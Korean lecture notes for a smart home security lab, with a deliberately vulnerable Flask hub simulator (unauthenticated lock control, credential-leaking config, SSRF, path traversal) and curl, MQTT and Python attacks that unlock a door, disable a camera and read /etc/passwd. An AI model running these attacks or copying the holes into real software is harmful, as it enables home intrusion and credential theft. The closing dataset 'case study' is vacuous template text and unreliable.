

# Week 10: 스마트홈 보안

## 학습 목표
- 스마트홈 생태계의 구성 요소와 통신 흐름을 이해한다
- 스마트홈 허브 공격을 통한 전체 네트워크 장악 기법을 학습한다
- 스마트홈 프로토콜(Zigbee, Z-Wave, Matter)의 보안 분석을 수행한다
- 음성 비서 및 클라우드 연동의 보안 취약점을 파악한다
- 스마트홈 보안 아키텍처를 설계한다

## 실습 환경 (공통)

| 서버 | IP | 역할 | 접속 |
|------|-----|------|------|
| attacker | 10.20.30.201 | 공격/분석 머신 | `ssh ccc@10.20.30.201` (pw: 1) |
| secu | 10.20.30.1 | 방화벽/IPS | `ssh ccc@10.20.30.1` |
| web | 10.20.30.80 | 스마트홈 허브 시뮬레이터 | `ssh ccc@10.20.30.80` |
| siem | 10.20.30.100 | SIEM (Wazuh) | `ssh ccc@10.20.30.100` |

## 강의 시간 배분 (3시간)

| 시간 | 내용 | 유형 |
|------|------|------|
| 0:00-0:40 | 스마트홈 생태계 이론 (Part 1) | 강의 |
| 0:40-1:10 | 허브 공격 및 프로토콜 분석 (Part 2) | 강의/토론 |
| 1:10-1:20 | 휴식 | - |
| 1:20-2:00 | 스마트홈 허브 시뮬레이션 (Part 3) | 실습 |
| 2:00-2:40 | 프로토콜 공격 실습 (Part 4) | 실습 |
| 2:40-2:50 | 휴식 | - |
| 2:50-3:20 | 스마트홈 보안 설계 (Part 5) | 실습 |
| 3:20-3:40 | 정리 + 과제 안내 | 정리 |

---

## Part 1: 스마트홈 생태계 이론 (40분)

### 1.1 스마트홈 아키텍처

```
┌──────────────────────────────────────────────────┐
│                    Cloud Services                 │
│  ┌──────┐  ┌──────┐  ┌──────┐  ┌─────────────┐ │
│  │Google│  │Amazon│  │Apple │  │ 제조사 Cloud │ │
│  │Home  │  │Alexa │  │HomeKit│  │ (Tuya 등)   │ │
│  └──┬───┘  └──┬───┘  └──┬───┘  └──────┬──────┘ │
└─────┼─────────┼─────────┼──────────────┼────────┘
      │         │         │              │
      └─────────┴────┬────┴──────────────┘
                     │ (HTTPS, MQTT, WebSocket)
              ┌──────┴──────┐
              │  Smart Hub  │ ← 허브/게이트웨이
              │ (Home Asst.)│
              └──────┬──────┘
         ┌───────────┼───────────┐
         │           │           │
    ┌────┴───┐  ┌───┴────┐ ┌───┴────┐
    │ Zigbee │  │  WiFi  │ │ Z-Wave │
    │Devices │  │Devices │ │Devices │
    │(조명)  │  │(플러그)│ │(도어락)│
    └────────┘  └────────┘ └────────┘
```

### 1.2 스마트홈 프로토콜 비교

| 프로토콜 | 주파수 | 범위 | 메시 | 디바이스 수 | 보안 |
|----------|--------|------|------|-------------|------|
| Zigbee | 2.4 GHz | ~100m | O | 65,000 | AES-128 |
| Z-Wave | 868/915 MHz | ~100m | O | 232 | AES-128 (S2) |
| WiFi | 2.4/5 GHz | ~100m | X | 라우터 의존 | WPA3 |
| BLE Mesh | 2.4 GHz | ~100m | O | 32,767 | AES-CCM |
| Thread | 2.4 GHz | ~100m | O | 250+ | AES-128 |
| Matter | 다양 | 다양 | O | 다양 | CASE/PASE |

### 1.3 Matter 프로토콜

Matter는 Apple, Google, Amazon, Samsung이 공동 개발한 스마트홈 표준이다.

```
┌─────────────────────────────┐
│      Matter Application     │
├─────────────────────────────┤
│    Interaction Model        │ ← 클러스터, 명령, 이벤트
├─────────────────────────────┤
│    Security (CASE/PASE)     │ ← TLS 1.3 기반
├─────────────────────────────┤
│    Transport (TCP/UDP)      │
├─────────────────────────────┤
│  Thread │ WiFi │ Ethernet   │ ← 네트워크 레이어
└─────────────────────────────┘
```

### 1.4 스마트홈 공격 시나리오

| 시나리오 | 공격 벡터 | 영향 |
|----------|-----------|------|
| 도어락 해제 | Zigbee 리플레이/BLE 스푸핑 | 물리적 침입 |
| 카메라 도청 | RTSP 미인증/클라우드 해킹 | 프라이버시 침해 |
| 스마트 플러그 조작 | WiFi MitM/MQTT 주입 | 화재 위험 |
| 허브 장악 | 웹 취약점/기본 비밀번호 | 전체 네트워크 제어 |
| 음성 명령 주입 | 초음파/레이저 공격 | 무단 명령 실행 |

---

## Part 2: 허브 공격 및 프로토콜 분석 (30분)

### 2.1 Home Assistant 보안

Home Assistant는 오픈소스 스마트홈 플랫폼이다.

**공격 표면:**
```
┌─────────────────────────────────────┐
│         Home Assistant               │
├──────────┬──────────┬───────────────┤
│ Web UI   │ REST API │ WebSocket API │
│ (8123)   │ (8123)   │ (8123)       │
├──────────┼──────────┼───────────────┤
│ MQTT     │ Zigbee   │ Z-Wave       │
│Integration│(ZHA/Z2M)│ (Z-WaveJS)   │
├──────────┴──────────┴───────────────┤
│    Add-ons (Docker containers)      │
│  ┌──────┐ ┌───────┐ ┌────────────┐│
│  │NodeRED│ │Grafana│ │Terminal/SSH ││
│  └──────┘ └───────┘ └────────────┘│
└─────────────────────────────────────┘
```

### 2.2 스마트홈 허브 취약점 유형

1. **인증 우회:** API 토큰 없이 접근
2. **SSRF:** 내부 서비스 스캔
3. **Add-on 취약점:** 취약한 Docker 컨테이너
4. **MQTT 브릿지:** 미인증 MQTT 접근 → 디바이스 제어
5. **Zigbee2MQTT:** 웹 프론트엔드 인증 부재

---

## Part 3: 스마트홈 허브 시뮬레이션 (40분)

### 3.1 스마트홈 허브 시뮬레이터

```bash
cat << 'PYEOF' > /tmp/smarthome_hub.py
#!/usr/bin/env python3
"""스마트홈 허브 시뮬레이터"""
from flask import Flask, request, jsonify, session
import json
import time
import random

app = Flask(__name__)
app.secret_key = 'smarthome-hub-2024'

# 디바이스 상태
DEVICES = {
    "light_living": {"name": "거실 조명", "type": "light", "state": "on", "brightness": 80, "protocol": "zigbee"},
    "light_bedroom": {"name": "침실 조명", "type": "light", "state": "off", "brightness": 0, "protocol": "zigbee"},
    "lock_front": {"name": "현관 도어락", "type": "lock", "state": "locked", "protocol": "z-wave"},
    "camera_front": {"name": "현관 카메라", "type": "camera", "state": "recording", "protocol": "wifi"},
    "thermo_living": {"name": "거실 온도계", "type": "sensor", "state": "23.5C", "protocol": "zigbee"},
    "plug_kitchen": {"name": "주방 스마트플러그", "type": "switch", "state": "on", "power": "1200W", "protocol": "wifi"},
    "speaker_living": {"name": "거실 스피커", "type": "speaker", "state": "idle", "protocol": "wifi"},
}

# API 토큰 (취약: 약한 토큰)
VALID_TOKENS = ["eyJhbGciOiJIUzI1NiJ9.smart_home_admin", "guest_token_123"]

@app.route('/')
def index():
    return '''<html><body>
    <h1>Smart Home Hub</h1>
    <h3>Devices</h3><ul>''' + \
    ''.join(f'<li>{d["name"]} ({d["type"]}): {d["state"]}</li>' for d in DEVICES.values()) + \
    '''</ul>
    <a href="/api/devices">API</a> | <a href="/api/config">Config</a>
    </body></html>'''

# 취약: 인증 없는 API
@app.route('/api/devices')
def api_devices():
    return jsonify(DEVICES)

@app.route('/api/devices/<device_id>/control', methods=['POST'])
def control_device(device_id):
    if device_id not in DEVICES:
        return jsonify({"error": "Device not found"}), 404
    
    action = request.json.get('action', '') if request.json else ''
    
    if DEVICES[device_id]['type'] == 'lock':
        if action in ['lock', 'unlock']:
            DEVICES[device_id]['state'] = 'locked' if action == 'lock' else 'unlocked'
            return jsonify({"status": "ok", "device": device_id, "state": DEVICES[device_id]['state']})
    
    elif DEVICES[device_id]['type'] == 'light':
        if action in ['on', 'off']:
            DEVICES[device_id]['state'] = action
            return jsonify({"status": "ok"})
    
    elif DEVICES[device_id]['type'] == 'switch':
        if action in ['on', 'off']:
            DEVICES[device_id]['state'] = action
            return jsonify({"status": "ok"})
    
    return jsonify({"error": "Invalid action"}), 400

# 취약: 설정 정보 노출
@app.route('/api/config')
def api_config():
    config = {
        "hub_name": "MySmartHome",
        "firmware": "v3.2.1",
        "zigbee_channel": 15,
        "zigbee_network_key": "0x01020304050607080910111213141516",
        "mqtt_broker": "10.20.30.80:1883",
        "mqtt_user": "homeassistant",
        "mqtt_password": "mqtt_pass_123",
        "wifi_ssid": "SmartHome-5G",
        "wifi_password": "MyWiFiPass2024!",
        "cloud_api_key": "sk-cloud-iot-1234567890",
        "latitude": 37.5665,
        "longitude": 126.9780,
    }
    return jsonify(config)

# 취약: SSRF
@app.route('/api/webhook/test')
def webhook_test():
    url = request.args.get('url', '')
    if url:
        import urllib.request
        try:
            resp = urllib.request.urlopen(url, timeout=5).read()
            return f"Response: {resp[:500]}"
        except Exception as e:
            return f"Error: {e}"
    return "Provide ?url=..."

# 취약: 로그 뷰어 (경로 탐색)
@app.route('/api/logs')
def logs():
    logfile = request.args.get('file', 'hub.log')
    try:
        with open(f"/var/log/{logfile}", 'r') as f:
            return f"<pre>{f.read()[:5000]}</pre>"
    except:
        return "Log not found"

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8090, debug=True)
PYEOF

python3 /tmp/smarthome_hub.py &
```

### 3.2 허브 정찰 및 공격

```bash
# 디바이스 목록 수집 (미인증)
curl -s http://10.20.30.80:8090/api/devices | python3 -m json.tool

# 설정 정보 유출 (민감 정보)
curl -s http://10.20.30.80:8090/api/config | python3 -m json.tool

# 도어락 해제 (미인증 API)
curl -s -X POST http://10.20.30.80:8090/api/devices/lock_front/control \
  -H "Content-Type: application/json" \
  -d '{"action":"unlock"}'

# 모든 조명 끄기
for dev in light_living light_bedroom; do
  curl -s -X POST "http://10.20.30.80:8090/api/devices/$dev/control" \
    -H "Content-Type: application/json" \
    -d '{"action":"off"}'
done

# SSRF 공격
curl -s "http://10.20.30.80:8090/api/webhook/test?url=http://10.20.30.100:9200/_cat/indices"

# 경로 탐색
curl -s "http://10.20.30.80:8090/api/logs?file=../../etc/passwd"
```

---

## Part 4: 프로토콜 공격 실습 (40분)

### 4.1 MQTT 기반 디바이스 제어

```bash
# MQTT 토픽 구독 (스마트홈 데이터 수집)
mosquitto_sub -h 10.20.30.80 -t "homeassistant/#" -v -C 20 2>/dev/null

# MQTT로 디바이스 상태 조작
mosquitto_pub -h 10.20.30.80 \
  -t "homeassistant/light/living/set" \
  -m '{"state":"OFF"}' 2>/dev/null

# MQTT로 도어락 해제
mosquitto_pub -h 10.20.30.80 \
  -t "homeassistant/lock/front/set" \
  -m '{"state":"UNLOCK"}' 2>/dev/null

# 가짜 센서 데이터 주입
mosquitto_pub -h 10.20.30.80 \
  -t "homeassistant/sensor/temperature/state" \
  -m '{"value":-10,"unit":"C"}' 2>/dev/null
```

### 4.2 스마트홈 공격 시나리오 시뮬레이션

```bash
cat << 'PYEOF' > /tmp/smarthome_attack.py
#!/usr/bin/env python3
"""스마트홈 공격 시나리오 시뮬레이션"""
import requests
import json
import time

HUB = "http://10.20.30.80:8090"

print("=" * 50)
print("스마트홈 공격 시나리오 시뮬레이션")
print("=" * 50)

# 시나리오 1: 정찰
print("\n[Phase 1] 정찰 — 디바이스 열거")
try:
    r = requests.get(f"{HUB}/api/devices", timeout=5)
    devices = r.json()
    for dev_id, dev in devices.items():
        print(f"  {dev['name']:20s} | {dev['type']:10s} | {dev['state']:10s} | {dev['protocol']}")
except:
    print("  (연결 불가 — 시뮬레이션 모드)")
    devices = {"lock_front": {"name": "현관 도어락", "type": "lock", "state": "locked"}}

# 시나리오 2: 설정 정보 탈취
print("\n[Phase 2] 설정 정보 탈취")
try:
    r = requests.get(f"{HUB}/api/config", timeout=5)
    config = r.json()
    print(f"  [!] WiFi SSID: {config.get('wifi_ssid', 'N/A')}")
    print(f"  [!] WiFi Password: {config.get('wifi_password', 'N/A')}")
    print(f"  [!] MQTT Password: {config.get('mqtt_password', 'N/A')}")
    print(f"  [!] Zigbee Key: {config.get('zigbee_network_key', 'N/A')}")
    print(f"  [!] Cloud API Key: {config.get('cloud_api_key', 'N/A')}")
    print(f"  [!] GPS 위치: {config.get('latitude', 'N/A')}, {config.get('longitude', 'N/A')}")
except:
    print("  (설정 접근 불가)")

# 시나리오 3: 도어락 해제
print("\n[Phase 3] 도어락 해제 공격")
try:
    r = requests.post(f"{HUB}/api/devices/lock_front/control",
                      json={"action": "unlock"}, timeout=5)
    print(f"  [!] 도어락 상태: {r.json()}")
except:
    print("  (시뮬레이션: 도어락 해제 성공)")

# 시나리오 4: 카메라 비활성화
print("\n[Phase 4] 보안 카메라 비활성화")
try:
    r = requests.post(f"{HUB}/api/devices/camera_front/control",
                      json={"action": "off"}, timeout=5)
    print(f"  [!] 카메라 비활성화: {r.json()}")
except:
    print("  (시뮬레이션: 카메라 꺼짐)")

# 시나리오 5: 물리적 침입 가능
print("\n[Phase 5] 공격 결과")
print("  [!] 도어락 해제됨")
print("  [!] 보안 카메라 비활성화됨")
print("  [!] 물리적 침입 가능 상태!")
print("  [!] WiFi 비밀번호 탈취 → 내부 네트워크 접근 가능")
print("  [!] 거주자 GPS 위치 노출 → 부재 시 침입 가능")
PYEOF

python3 /tmp/smarthome_attack.py
```

---

## Part 5: 스마트홈 보안 설계 (30분)

### 5.1 스마트홈 보안 아키텍처

```
인터넷 ─── [라우터/방화벽] ───┬─── VLAN 10 (업무/개인)
                              ├─── VLAN 20 (IoT 디바이스)
                              │    (인터넷 차단, 허브만 통신)
                              ├─── VLAN 30 (카메라)
                              │    (NVR만 통신)
                              └─── 허브 (VLAN 20-30 관리)
```

### 5.2 보안 강화 체크리스트

| 계층 | 대책 | 구현 |
|------|------|------|
| 네트워크 | VLAN 분리 | IoT 전용 SSID/VLAN |
| 인증 | 강력한 비밀번호 | 16자 이상, MFA |
| 암호화 | TLS/DTLS | MQTT over TLS |
| API | 인증 + 권한 | JWT 토큰, RBAC |
| 업데이트 | 자동 업데이트 | 서명된 펌웨어만 |
| 모니터링 | 이상 탐지 | 비정상 명령 알림 |
| 물리 | 접근 제한 | 허브 잠금 보관 |

---

## Part 6: 과제 안내 (20분)

### 과제

- 스마트홈 허브 API에 JWT 인증을 추가하시오
- MQTT 브릿지에 TLS + ACL을 설정하시오
- 스마트홈 보안 아키텍처 설계서를 작성하시오

---

## 참고 자료

- Home Assistant: https://www.home-assistant.io/
- Matter 표준: https://csa-iot.org/all-solutions/matter/
- Z-Wave S2 보안: https://z-wavealliance.org/
- Thread Group: https://www.threadgroup.org/

---

## 실제 사례 (WitFoo Precinct 6 — Smart Home 침투)

> 출처: WitFoo Precinct 6 Cybersecurity Dataset (Apache 2.0)
> 본 lecture *Smart Home 침투* 학습 항목 매칭.

### Smart Home 침투 의 dataset 흔적 — "Home Assistant"

dataset 의 정상 운영에서 *Home Assistant* 신호의 baseline 을 알아두면, *Smart Home 침투* 시도 시 발생하는 anomaly 를 정량으로 탐지할 수 있다. 핵심 정량 지표는 — smart device chain.



### Case 1: dataset 정량 지표

| 항목 | 값 |
|---|---|
| 핵심 신호 | Home Assistant |
| 정량 baseline | smart device chain |
| 학습 매핑 | home automation 보안 |

**자세한 해석**: home automation 보안. 이 차이를 정량으로 측정해야 *공격 시도와 정상 운영의 구분* 이 가능. 학생이 baseline 숫자를 외워두면 — 운영 환경에서 anomaly 를 즉시 탐지할 수 있다.

### Case 2: 실전 적용 시나리오

| 단계 | dataset 활용 |
|---|---|
| 시도 식별 | Home Assistant 의 spike |
| 정상 vs 이상 | baseline 대비 비율 |
| 룰 작성 | Suricata / Wazuh / Sigma |
| 검증 | dataset 재실행 |

**자세한 해석**: 운영 환경 룰 작성은 — *baseline 측정 → 임계 결정 → 룰 작성 → dataset 검증* 의 4 단계. 한 단계라도 빠지면 false positive 폭증.

### 이 사례에서 학생이 배워야 할 3가지

1. **Smart Home 침투 = Home Assistant 의 anomaly** — 정량 신호로 탐지.
2. **baseline 숫자 외우기** — smart device chain.
3. **4 단계 룰 작성** — 측정 → 임계 → 룰 → 검증.

**학생 액션**: home lab.
